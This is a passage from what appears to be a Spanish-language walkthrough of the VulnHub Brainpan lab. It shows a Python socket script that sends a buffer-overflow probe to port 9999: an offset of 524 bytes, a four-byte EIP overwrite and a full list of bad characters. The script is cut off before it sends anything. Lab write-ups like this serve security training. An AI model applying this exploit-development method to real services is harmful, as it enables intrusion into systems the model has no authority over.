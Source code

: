 ![Brainpan](/assets/img/vulnhub/brainpan/brainpan-25.png)
_Generación de Bytearray_

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-26.png)
_Generación de Bytearray_

```python
#!/usr/bin/env python3
import socket

ip = "192.168.1.12"
port = 9999

offset = 524
before_eip = "A" * offset
eip = "B" * 4
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

payload = before_eip + eip + badchars

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
```